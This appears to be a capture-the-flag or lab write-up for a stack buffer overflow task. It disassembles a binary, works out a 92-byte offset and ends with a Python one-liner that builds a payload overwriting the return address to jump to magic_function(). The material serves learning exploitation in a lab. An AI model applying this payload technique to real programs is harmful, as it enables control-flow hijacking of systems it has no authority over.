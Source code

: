 ```yaml
---
nav_order: 1
parent: 'Task: Overwrite Return Address'
---
```


# Writeup

- First use this command to scan the executable:

> ```Bash
> objdump -M intel -d break_this
> ```

- The `main()` function only calls `read_buffer()`.
- This function reads the length of a buffer from standard input into a variable `n`.
- Then it reads the buffer itself (`char buffer[64]`).
- Because `fgets()` reads at most `n - 1` characters, we can set `n` to a value bigger than the length of the buffer, so an overflow may be possible.
- We will set `n` to a large enough value: `100`

- `magic_function()` starts at address `0x08048596`
- From the first 4 lines from `read_buffer()` we get that: `ebp` and `edi` get pushed on the stack, then the stack is extended by `0x54` = `84`
- So we must print `88 + 4 + 4 = 92` dummy characters `A` and then the address of `magic_function()` in little-endian encoding

For further explanation:

```C
int n;                                          // 4 bytes
unsigned int disorienting_var = 0xDEADBEEF;     // 4 bytes
char buffer[64] = "\0";                         // 64 bytes
size_t i, len;                                  // 16 bytes (8 each one)
```

Sum that up and add another 4 for `ebp` => 92

``` Bash
python2.7 -c 'print "100\n" + "A" * 92 + "\x96\x85\x04\x08"' > payload
```

